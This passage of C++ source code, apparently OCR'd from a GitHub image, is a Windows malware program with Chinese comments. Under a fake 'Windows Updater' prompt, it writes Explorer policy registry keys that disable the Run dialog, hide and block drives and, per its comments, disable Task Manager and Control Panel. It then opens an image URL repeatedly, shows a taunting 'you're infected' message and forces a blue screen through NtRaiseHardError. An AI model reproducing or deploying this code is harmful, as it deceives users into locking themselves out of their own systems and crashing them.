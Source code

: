 ```
    RegCreateKey(HKEY_CURRENT_USER, L"Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer", &hkey);
    RegSetValueEx(hkey, L"NoViewOnDrive", NULL, REG_DWORD, (LPBYTE)&value, sizeof(DWORD));
    RegCloseKey(hkey);
}
void norun() {
    HKEY hkey;
    DWORD value = 1;
    RegCreateKey(HKEY_CURRENT_USER, L"Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer", &hkey);
    RegSetValueEx(hkey, L"NoRun", NULL, REG_DWORD, (LPBYTE)&value, sizeof(DWORD));
    RegCloseKey(hkey);
}
void bsod() {
    BOOLEAN bEnabled;
    ULONG uResp;
    LPVOID lpFuncAddress = GetProcAddress(LoadLibraryA("ntdll.dll"), "RtlAdjustPrivilege");
    LPVOID lpFuncAddress2 = GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtRaiseHardError");
    pdef_RtlAdjustPrivilege NtCall = (pdef_RtlAdjustPrivilege)lpFuncAddress;
    pdef_NtRaiseHardError NtCall2 = (pdef_NtRaiseHardError)lpFuncAddress2;
    NTSTATUS NtRet = NtCall(19, TRUE, FALSE, &bEnabled);
    NtCall2(STATUS_FLOAT_MULTIPLE_FAULTS, 0, 0, 0, 6, &uResp);
}
void message() {
    ShellExecute(NULL, L"open", L"https://www.microsoft.com/en/servicesagreement", NULL, NULL, SW_SHOWNORMAL);
}
void opendcim() {
    for (int i = 0; i <= 15; i++) {
        ShellExecute(NULL, L"open", L"https://themastersedu.com/editor_images/Image/line_20161121_main.jpg", NULL, NULL, SW_SHOWNOACTIVATE);
        Sleep(1000);
    }
}
void virus() {
    noclose();//禁用開機選單
    disabletskmanager();//禁用工作管理員
    noctrlpanel();//禁用控制台
    nodrive();//隱藏磁碟機
    nofind();//禁用搜尋,win11似乎沒用
    nofolderoptions();//隱藏資料夾選項
    noviewondrive();//禁止存取磁碟
    norun();//禁用win+R
}

int main() {
    if (admin())//確認目前是否以管理員模式執行程式
    {
        thread work1(message);//在第一個執行序裡執行打開微軟授權合約網頁
        MessageBox(NULL, (L"Please Read the Contract Then Press OK\nhttps://www.microsoft.com/en/servicesagreement"), (L"Windows Updater"), MB_OKCANCEL|MB_ICONINFORMATION);//執行MassegeBox
        PlaySound(LPCWSTR(IDR_WAVE1), GetModuleHandle(NULL), SND_RESOURCE | SND_ASYNC | SND_LOOP);//播放音檔
        thread work2(virus);//執行virus函式
        MessageBox(NULL, (L"哈哈哈你好笨喔笑死呵呵"), (L"恭喜中毒"), MB_OK);//跳出MassegeBox告知中毒
        thread work3(opendcim);//打開網頁裡的圖片
        bsod();//執行藍屏使系統重開
        system("pause>nu1");
    }
    else//若不是管理員身分
    {
        MessageBox(NULL, (L"Please Run As Admin Mode"), (L"ERROR"), MB_OK);//跳出MassegeBox請使用者以管理員身分執行
```